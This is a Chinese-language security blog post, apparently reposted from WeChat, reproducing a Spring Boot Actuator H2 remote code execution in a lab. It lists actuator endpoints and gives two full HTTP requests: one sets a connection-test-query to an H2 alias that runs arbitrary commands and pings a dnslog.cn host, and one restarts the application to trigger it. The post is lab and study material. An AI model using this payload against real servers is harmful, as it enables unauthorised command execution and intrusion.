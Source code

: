 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZcuHN-nd2KXh6khoD7Z_HQ)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFbXPGAIpeV3dickFDRx7ez7KcMVHXEQR6pIZwEECu7trC9K6oGuMUuPQ/640?wx_fmt=png)

我的实战经验当中，南网的系统中遇到 Spring Boot 框架的概率最高。每次遇到 Spring Boot 框架的站点时，经常日不下来，不知道是不是自己的利用姿势有问题，所以还是搭建环境复现一下，以证明自己的姿势没问题。

在和各位前辈、师傅们探讨 Spring Boot 框架的渗透方式时，得来的一个比较有效的信息就是，Spring Boot 的 Xstream 反序列化漏洞出现的相对比较高频，而且也很好利用，危害性也高，后续会对此进行复现并记录。

复现环境搭建教程不赘述，已有师傅复现，如下

文章参考：https://www.o2oxy.cn/2656.html

项目地址：https://github.com/spaceraccoon/spring-boot-actuator-h2-rce

**0x01 漏洞描述**

Actuator 是 Spring Boot 提供的服务监控和管理中间件。当 Spring Boot 应用程序运行时，它会自动将多个端点注册到路由进程中。而由于对这些端点的错误配置，就有可能导致一些系统信息泄露、XXE、甚至是 RCE 等安全问题。

**0x02 影响版本**

// 默认未授权访问所有端点

Spring Boot < 1.5

// 默认只允许访问 / health 和 / info 端点，但是此安全性通常被应用程序开发人员禁用

Spring Boot >= 1.5

**0x03 漏洞利用**

开始之前，要思考一个问题，如何判断目标站点是否使用 Spring Boot 框架。Spring Boot 框架通常有两个特征点：

    1. 网站 ico 文件是一片绿叶

    2. 特有的报错信息 “Whitelabel Error Page”

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFGeTRZdtLiaUx9Np6Yp6cQSSpnKGvDJuIOlNRxThHbMVHda2M0cicXLQw/640?wx_fmt=png)

这是官方文档对于每个端点的功能描述

<table><tbody><tr><td width="115.66666666666669" valign="top">路径<br></td><td width="419" valign="top">描述<br></td></tr><tr><td width="115.66666666666669" valign="top"><p>/autoconfig</p></td><td width="419" valign="top"><p>提供了一份自动配置报告，记录哪些自动配置条件通过了，哪些没通过</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/beans</p></td><td width="419" valign="top"><p>描述应用程序上下文里全部的 Bean，以及它们的关系</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/env</p></td><td width="419" valign="top"><p>获取全部环境属性</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/configprops</p></td><td width="419" valign="top"><p>描述配置属性 (包含默认值) 如何注入 Bean</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/dump</p></td><td width="419" valign="top"><p>获取线程活动的快照</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/health</p></td><td width="419" valign="top"><p>报告应用程序的健康指标，这些值由 HealthIndicator 的实现类提供</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/info</p></td><td width="419" valign="top"><p>获取应用程序的定制信息，这些信息由 info 打头的属性提供</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/mappings</p></td><td width="419" valign="top"><p>描述全部的 URI 路径，以及它们和控制器 (包含 Actuator 端点) 的映射关系</p></td></tr><tr><td width="115.66666666666669" valign="top"><p>/metrics‍</p></td><td width="419" valign="top"><p>报告各种应用程序度量信息，比如内存用量和 HTTP 请求计数</p></td></tr><tr><td valign="top" colspan="1" rowspan="1"><p>/shutdown</p></td><td valign="top" colspan="1" rowspan="1"><p>关闭应用程序，要求 endpoints.shutdown.enabled 设置为 true</p></td></tr><tr><td valign="top" colspan="1" rowspan="1"><p>/trace</p></td><td valign="top" colspan="1" rowspan="1"><p>提供基本的 HTTP 请求跟踪信息 (时间戳、HTTP 头等)</p></td></tr></tbody></table>

Spring Boot 1.x 版本的端口是在根 URL 下注册的，而 Spring Boot 2.x 版本的端口移至 / actuator 路径下，为此也专门特制了一份关于 Spring Boot 的目录字典。但是，在实战中遇到的情况却是端口路径可能存放于多级目录下，这就加大了利用的难度。

(1) 访问：http://192.168.100.133:8080/actuator

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFoflJ9oHriajn5AhSdmLwNKHWz0oicg4alXL5E9LYmgHRic1Gwtl1UiavwA/640?wx_fmt=png)

<Chrome 浏览器视图 >

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFKfKoHgUCAJo2Vf6cJfrhdeBenpNF58GZAeq0DsU1FNMtf5gzxgWLpw/640?wx_fmt=png)

<FireFox 浏览器视图 >

存在端点信息，接着发送如下 POST 包配置 spring.datasource.hikari.connection-test-query 的值。

```
POST /actuator/env HTTP/1.1
Host: 192.168.100.133:8080
Content-Type: application/json
Content-Length: 389

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('ping gkbtcq.dnslog.cn');"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFAz0yEfxymlkUrYHHhqw7ovPicKIJNq86mIwPJBUKaR2txMe0YWttTbg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFPnlLnFZaaZ5iaVrHVWq7PFgpAGqgicRuouXyWHF1iatAMRGnPgz45DCkw/640?wx_fmt=png)

发送完成后，查看 / actuator/env 信息

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHF5WC8B8qEdjTx5Q9ngfPl4FJX6zPkDlGNLM9PP0hb80stsqVEscQBKQ/640?wx_fmt=png)

再向端点 / actuator/restart 发送 POST 请求，Payload 如下：

```
POST /actuator/restart HTTP/1.1
Host: 192.168.100.133:8080
Content-Type: application/json
Content-Length: 356

{}
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFNReP5hugFmKiaVWze8RE4PW9HDgEePmdkX3uz3B0hekxicftayVHibia9A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHFicYHBzfo6vGmAWuotMlg9e98FETYQ0QOuVoXyzw7BTUJjibTic98yZLJQ/640?wx_fmt=png)

重新启动成功，刷新 DNSLog 数据即可。  

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2wIkV5jyFy5znjfkjUmlJHF6SNAC2IRt38cQhjkH83KO0GFctZ4erWRwuuC6aJ1LaOW1KyNCfYhfQ/640?wx_fmt=png)